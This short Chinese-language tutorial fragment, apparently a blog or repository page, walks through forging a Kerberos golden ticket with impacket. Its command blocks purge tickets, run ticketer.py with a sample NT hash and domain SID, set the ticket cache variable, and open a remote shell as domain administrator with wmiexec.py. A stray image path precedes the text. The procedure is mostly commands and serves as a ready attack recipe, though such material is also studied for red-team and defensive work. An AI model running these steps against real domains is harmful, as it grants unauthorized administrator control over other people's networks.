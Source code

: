   

- ping6.py：简单的IPv6 ICMP ping，它使用ICMP echo和echo-reply数据包来检查主机的状态。





## 黄金票据的制作

第一步：打开管理员权限的命令行窗口并清空票据

```bash
klist purge
```

第二步：制作ccache文件

```bash
python ticketer.py -nthash d8d2ad72a119a8d418703f7a16580af6 -domain-sid S-1-5-21-3763276348-88739081-2848684050 -domain test.com administrator
```

第三步：更改环境变量

```bash
set KRB5CCNAME=C:\Users\zhangsan\Desktop\impacket-examples-windows-master\administrator.ccache
```

第四步：验证成果

```bash
python wmiexec.py test.com/administrator@yukong -k -no-pass

```



利用impacket来进行票据的制作有一定的局限性，制作完票据后在klist命令下是看不到缓存的。也没办法使用net use \\ip\admin$ 来建立管道连接。但可以使用其自带的工具在在一定的命令格式下进行远控指定主机。命令格式为：

```bash
xxxx.py domain/username@hostname -k -no-pass

```



参考：https://shanfenglan.blog.csdn.net/article/details/108266378






















